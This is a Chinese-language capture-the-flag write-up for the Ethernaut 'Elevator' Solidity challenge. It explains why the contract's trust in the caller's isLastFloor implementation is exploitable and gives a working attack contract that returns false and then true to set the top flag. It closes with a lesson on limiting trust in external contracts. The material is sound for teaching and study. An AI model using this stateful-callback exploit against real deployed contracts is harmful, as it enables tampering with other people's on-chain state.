



# Elevator

## 题目

目标：将top修改为true

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

## 分析

top默认值为false，floor默认值为0。本题需要我们将top修改为true。

但是这个合约里面没有一个函数可以将top修改成为true。只有一个地方可能，那就是goTo()函数里面的`top = building.isLastFloor(floor)`。`isLastFloor()`是接口Building的一个方法，尚未实现，因此我们需要实现这个方法。

我们分析发现，goTo()代码中，`building.isLastFloor(_floor)`出现了两次，第一次在if()判断里面，需要我们返回false才可以进入语句。第二次在`top = building.isLastFloor(floor)`需要我们返回true，才可以修改top为true。因为参数`_floor`被使用使用了两次，不修改`_floor`的话结果肯定是一样的(要么都false，要么都true)。因此我们需要在`_floor`中做文章，使得两次返回的结果，第一次为false，第二次为true。

## 攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}

contract Hack is Building{
    uint floor = 1;
    Elevator elevator = Elevator(0xa9Eb9Ae51b033aE0381d85C30BB4b4e185E09b91);//题目地址

    function isLastFloor(uint _floor) external returns (bool){
        if(floor == _floor){
            floor = 2;
            return false;
        }else{
            return true;
        }
    }
    function attack() public{
        elevator.goTo(1);
    }
}
```

**解释Hack**

1. 攻击合约需要实现Building接口，然后实现`isLastFloor`方法。
2. 执行`attack()`，然后题目Elevator就会执行`goTo(1)`
   1. `Building building = Building(msg.sender)`创建了一个接口，接口对象是msg.sender，即Hack合约
   2. `! building.isLastFloor(_floor)`，这个接口就会回到Hack进行方法`isLastFloor(1)`的调用。这是第一次调用`isLastFloor()`，然后floor == _floor吗？在Hack环境中，1==1为true，进入方法体，Hack合约的floor = 2赋值，返回false
   3. 回到Elevator合约，!false进入方法体，Evelator合约环境的floor = _floor，即floor被赋值为1。
   4. 然后`top = building.isLastFloor(floor)`第二次进入Hack的`isLastFloor(1)`方法。此时floor == _floor吗？Hack的环境2==1？不进入方法体，返回true。top被赋值为true

需要重点理解的是：Evevator中的接口方法`building.isLastFloor(_floor)`会返回到Hack中找到对应的实现，然后执行。原因：`Building building = Building(msg.sender)`，msg.sender是Hack，接口对象是Hack

我认为这个地方需要注意的是：之所以会出现漏洞，是因为Elevator合约中的`Building building = Building(msg.sender)`给了外界太多的操作空间，后面的调用都是在外面给定的合约进行操作的，只要接口合约前一次返回flase，后一次返回true，就可以成功修改top为true。所以我们在书写合约的时候，一定要注意和外面的交互时，不要授权给外界太多的权力，外界的合约充满太多的未知

## 做题

获取实例，部署，初始状态如下：



发起攻击，然后成功修改：



通过


